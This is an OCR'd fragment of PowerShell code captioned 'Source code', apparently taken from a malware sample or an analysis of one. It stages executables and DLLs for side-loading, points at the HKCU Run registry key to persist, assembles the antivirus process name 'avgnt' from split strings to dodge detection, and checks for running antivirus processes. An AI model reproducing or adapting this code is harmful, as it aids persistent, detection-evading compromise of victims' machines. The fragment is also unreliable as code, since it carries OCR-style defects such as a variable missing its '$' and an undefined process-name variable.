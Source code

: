 
catch{


$cmdLine = "cliconfig32.exe";


}


$line = new-object byte[] 64;


$buf6 =[Byte[]] (,0x23 * 64);


$cbytes =
[system.Text.Encoding]::ASCII.GetBytes($cmdLine);


[array]::copy($cbytes,$line,$cbytes.length);





$binPath = $binDir +
"cliconfig32.exe";


$binPathdll = $binDir +
"cmpbk32.dll";


$dmybinPath = $binDir +
"cmdl32.exe";


$rpcdllpath = $binDir +
"C39E343F.dll";


$run = 'HKCU:Software\Microsoft\Windows\CurrentVersion\Run\';


$system = 'HKCU:Software\Updater';


$runExists = False;


$pnameavr = "av" + "gn"
+ "t";


$msvbvmdllpath = $env:WINDIR +
"\system32\msvbvm60.dll"


$cmdl32path = $env:WINDIR +
"\system32\cmdl32.exe"





$q36 = Get-Process $pname36 -ErrorAction
SilentlyContinue;

